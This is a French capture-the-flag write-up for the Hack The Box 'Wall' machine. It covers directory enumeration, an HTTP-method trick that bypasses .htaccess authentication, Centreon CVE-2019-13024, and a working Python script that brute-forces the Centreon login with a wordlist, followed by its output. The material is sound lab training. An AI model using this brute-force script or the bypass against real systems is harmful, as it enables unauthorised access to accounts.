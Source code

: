 ```yaml
---
layout: post
title: HTB - Wall
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Apache, Python, Centreon, BeautifulSoup, CVE 2019-13024]
comments: false
---
```



L'url http://10.10.10.157/ mène sur la page par défaut d'Apache sous Ubuntu

Nmap nous dit que les ports 22 ssh et 80 http sont ouverts

Énumérons les dossiers:

~~~
root@Host-001:~# dirb http://10.10.10.157

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  3 18:19:32 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)                         
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)                           
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)                        
                                                                               
-----------------
END_TIME: Thu Oct  3 18:20:44 2019
DOWNLOADED: 4612 - FOUND: 3
~~~

Se rendre sur http://10.10.10.157/monitoring

Nous avons une authentification .htaccess

Bypasser l'authentification en utilisant POST à la place de GET dans la requête avec Burp

On est reconduit sur la page 

On tombe sur une page de login de Centreon v. 19.04.0 

Cette version de Centreon est vulnerable CVE 2019-13024:

- [https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024](https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024)
- [https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

Utilisons l'exploit pour cette CVE: [https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da)

Pour utiliser cet exploit il faut avoir les bons credentials. 

Les credentials par défault admin::centreon ne fonctionnent pas pour la page http. Idem root::centreon ne fonctionne pas pour la connection SSH. Ref: [https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html](https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html)

Brute-forcer les credentials avec Hydra. Faux positif pour le compte admin sur la page http.

Script maison bruteForceCentreon.py:

~~~
#!/usr/bin/python3

#Custom script to crack credentials from Centreon login form (HTB: Wall machine)
#Inspired from: https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da


import requests
import sys
import warnings
from bs4 import BeautifulSoup

fd = open("/usr/share/wordlists/rockyou.txt", "rb")
passwd_list = fd.readlines()
fd.close()

for password in passwd_list:

	print("[+] Trying:" + password)
	request = requests.session()
	print("[+] Retrieving CSRF token to submit the login form")
	page = request.get("http://10.10.10.157/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")

	login_info = {
    		"useralias": "admin",
    		"password": password,
    		"submitLogin": "Connect",
    		"centreon_token": token
	}


	login_request = request.post("http://10.10.10.157/centreon/index.php", login_info)
	print("[+] Login token is : {0}".format(token))

	if "Your credentials are incorrect." not in login_request.text:
		print("[+] Logged In Sucssfully. Password is: " + password)
		exit()
	else:
		print("[-] Wrong credentials")
~~~

Lancer le script:

~~~
root@Host-001:~/Bureau# python bruteForceCentreon.py 
~~~

Résultat:

(...)

~~~
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 7335bffb040efca5cf401759956e8768
[-] Wrong credentials
[+] Trying:rock you

[+] Retrieving CSRF token to submit the login form
[+] Login token is : 06d5023d6c9d373d9e44aa0c4dae7a9a
[+] Logged In Sucssfully. Password is: rock you
~~~

On essaye de se loguer avec admin::rock you mais on tombe sur une erreur 403 

On modifie le script et on se rend compte que n'importe quel mdp avec un espace ou un # dedans renvoie une erreur 403

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)
[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

